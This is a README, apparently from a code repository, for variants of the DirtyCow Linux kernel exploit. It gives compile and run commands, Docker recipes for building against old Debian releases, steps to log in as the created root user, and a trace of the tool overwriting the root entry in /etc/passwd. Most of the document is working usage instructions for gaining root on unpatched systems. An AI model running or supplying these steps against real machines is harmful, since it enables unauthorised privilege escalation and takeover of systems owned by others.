 # DirtyCow Origin

This exploit uses the pokemon exploit of the dirtycow vulnerability as a base and automatically generates a new passwd line.
The user will be prompted for the new password when the binary is run.
The original /etc/passwd file is then backed up to /tmp/passwd.bak and overwrites the root account with the generated line.
After running the exploit you should be able to login with the newly created user.

To use this exploit modify the user values according to your needs.

The default user being created is `firefart`.

Original exploit (dirtycow's ptrace_pokedata "pokemon" method):
  https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c

Compile with:

```bash
gcc -pthread dirty.c -o dirty -lcrypt
```

Then run the newly create binary by either doing:
```bash
./dirty
```

or

```bash
 ./dirty my-new-password
 ```
Afterwards, you can either `su firefart` or `ssh firefart@...`

**DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!**

```bash
mv /tmp/passwd.bak /etc/passwd
```

Exploit adopted by Christian "FireFart" Mehlmauer

https://firefart.at

# DirtyCow with Cowherd

## Compile for Debian Squeeze 32
* Use a docker target os to compile the exploit 
```
docker run --platform linux/386 -it -v $(pwd):/tmp debian/eol:squeeze
root@07ccd56551fe:/# apt-get update
...
root@07ccd56551fe:/# apt-get install gcc
....
root@07ccd56551fe:/# cd /tmp
root@07ccd56551fe:/tmp# head -n 20 dirty.c
...
root@07ccd56551fe:/tmp# head -n 20 cowherd.c
...
```
* Follow the compilation instructions
* Use it as the original


# Turtle

## Compile for Debian Wheezy 64

* Use a docker target os to compile the exploit 
```
docker run --platform linux/amd64 -it -v $(pwd):/tmp debian/eol:wheezy
root@07ccd56551fe:/# apt-get update
...
root@07ccd56551fe:/# apt-get install gcc
....
root@07ccd56551fe:/# cd /tmp
root@07ccd56551fe:/# gcc -pthread main.c -o turtle
```
## Use

```
$ ./turtle 

⛔ usage: build_name race_length race_interval advisor_interval

$ ./turtle 256 1 3

       236 µs	● run process[MAIN] >> thread[main]
       340 µs	⚬ ● run process[MAIN] >> thread[main] >>> function[main_setup]
       421 µs	⚬ ⚬ ● run process[MAIN] >> thread[main] >>> function[main_setup -> main_backup_passwd_file]
     4,023 µs	⚬ ⚬ ● end process[MAIN] >> thread[main] >>> function[main_setup -> main_backup_passwd_file]
     4,067 µs	⚬ ⚬ ● run process[MAIN] >> thread[main] >>> function[main_setup -> main_map_passwd_file_to_memory]
     4,154 µs	⚬ ⚬ ● end process[MAIN] >> thread[main] >>> function[main_setup -> main_map_passwd_file_to_memory]
     4,169 µs	⚬ ● end process[MAIN] >> thread[main] >>> function[main_setup -> main_setup]
     4,299 µs	● run process[POKEMON (MAIN is now POKEMON)] >> thread[main]
     4,328 µs	⚬ ● run process[POKEMON] >> thread[main] >>> function[pokemon_setup]
     4,352 µs	⚬ ● run process[COWHERD -> ADVISOR] >> thread[main]
     4,488 µs	⚬ ⚬ ● run process[POKEMON -> ADVISOR] >> thread[main] >>> function[advisor_setup]
     4,985 µs	⚬ ● run process[POKEMON -> ADVISOR] >> thread[advisor]
     5,030 µs	⚬ ⚬ ● run process[POKEMON -> ADVISOR] >> thread[advisor] >>> function[advise_kernel]🐮🔄
     5,593 µs	⚬ ● end process[COWHERD -> POKEMON] >> thread[main] >>> function[pokemon_setup]
     5,778 µs	⚬ ● run process[COWHERD -> POKEMON] >> thread[main] >>> function[pokemon_run]🐮🔄
     5,794 µs	⚬ ⚬ ● run process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_read_passwd_root_line]
     5,877 µs	⚬ ⚬ ● end process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_read_passwd_root_line]
     5,892 µs	⚬ ⚬ ● run process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_print_passwd_root_line]
     5,906 µs	● root:x:0:0:root:/root:/bin/bash
     5,915 µs	⚬ ⚬ ● end process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_print_passwd_root_line]
     7,570 µs	⚬ ⚬ ● run process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_read_passwd_root_line]
     7,610 µs	⚬ ⚬ ● end process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_read_passwd_root_line]
     7,618 µs	⚬ ⚬ ● run process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_print_passwd_root_line]
     7,627 µs	● 0:002UBq03Nvvos:0:0:::/bin/bash
     7,631 µs	⚬ ⚬ ● end process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_print_passwd_root_line]
     7,717 µs	⚬ ⚬ ● run process[POKEMON -> ADVISOR] >> thread[main] >>> function[advisor_sigterm]
     7,768 µs	● ADVISOR: .........34 memory advise
     7,790 µs	⚬ ⚬ ● end process[POKEMON -> ADVISOR] >> thread[main] >>> function[advisor_sigterm]
     7,816 µs	⚬ ● end process[POKEMON -> ADVISOR] >> thread[main]
     8,045 µs	● POKEMON: ......1,024 ptrace poketext
     8,054 µs	⚬ ● end process[POKEMON] >> thread[main] >>> function[pokemon_run]🐮🔄
     8,061 µs	● end process[POKEMON] >> thread[main]

```


